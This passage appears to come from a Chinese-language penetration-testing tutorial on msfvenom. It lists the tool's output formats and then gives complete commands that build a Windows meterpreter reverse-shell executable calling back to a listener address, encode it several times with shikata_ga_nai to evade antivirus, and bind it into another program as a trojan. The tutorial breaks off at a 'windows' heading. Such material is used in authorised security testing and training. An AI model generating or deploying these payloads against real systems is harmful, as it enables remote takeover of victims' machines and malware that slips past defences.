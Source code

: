 ```
    vba-psh
    vbs
    war

Framework Transform Formats [--format <value>]
==============================================

    Name
    ----
    base32
    base64
    bash
    c
    csharp
    dw
    dword
    hex
    java
    js_be
    js_le
    num
    perl
    pl
    powershell
    ps1
    py
    python
    raw
    rb
    ruby
    sh
    vbapplication
    vbscript
```

#### 实例

	msfvenom -p <payload> <payload options> -f <format> -o <path>

* 普通生成

	msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.2.130 LPORT=4444 -f exe -o hack.exe

			
* 编码处理

	msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.2.130 LPORT=4444 -e x86/shikata_ga_nai -i 3 -f exe -o hack1.exe

* 捆绑

	msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.2.130 LPORT=4444 --platform windows -a x86 -x hack.exe -k -f exe -o hack3.exe

* windows
